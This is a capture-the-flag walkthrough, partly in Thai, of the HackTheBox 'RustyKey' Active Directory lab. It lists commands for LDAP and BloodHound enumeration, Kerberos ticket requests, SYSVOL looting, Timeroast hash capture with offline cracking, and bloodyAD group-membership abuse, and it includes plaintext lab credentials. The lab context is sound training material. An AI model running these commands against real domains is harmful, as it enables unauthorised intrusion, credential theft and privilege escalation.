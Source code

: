 ldapsearch -x -H ldap://10.10.11.75 -D 'rr.parker@rustykey.htb' -w '8#t5HE8L!W3A' -b 'DC=rustykey,DC=htb'

![alt text](image.png)

bloodhound-python -u 'rr.parker' -p '8#t5HE8L!W3A' -d 'rustykey.htb' -dc 'dc.rustykey.htb' -c All -ns 10.10.11.75


![alt text](image-1.png)

![alt text](image-10.png)

ลองหา creadential leak ใน smb

![alt text](image-5.png)

![alt text](image-4.png)

nxc -k จะใช้ username/password ที่ให้มา (-u, -p) kerboroast authen ให้ TGT ขอ service ticket สำหรับ SMB

หรือจจะใช้ impacket-getTGT rustykey.htb/rr.parker:'8#t5HE8L!W3A' ขอ TGT ก็ได้

![alt text](image-6.png)

![alt text](image-7.png)

![alt text](image-8.png)

smbclient //dc.rustykey.htb/SYSVOL -U 'rr.parker%8#t5HE8L!W3A' -k  -c 'prompt OFF;recurse ON;lcd '/home/kali/Downloads/authHTB';mget *'

![alt text](image-9.png)

แต่ไม่พบอะไร



ใช้ timeroast  request a password hash of any computer or trust account(มักเป็นชื่อ domain + $) แต่เราจะโฟกัสที่ IT-COMPUTER3
1. Unauthenticated Attacker → ส่ง NTP request พร้อม RID
2. Windows NTP Service → ส่งคืน encrypted timestamp
3. Attacker → ได้ password hash
4. Offline cracking → ได้ plaintext password

https://github.com/SecuraBV/Timeroast

python3 timeroast.py dc.rustykey.htb

python3 timecrack.py hash.txt rockyou_utf8.txt 

![alt text](image-3.png)

![alt text](image-12.png)

![alt text](image-13.png)

bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k add groupMember HELPDESK 'IT-COMPUTER3$'



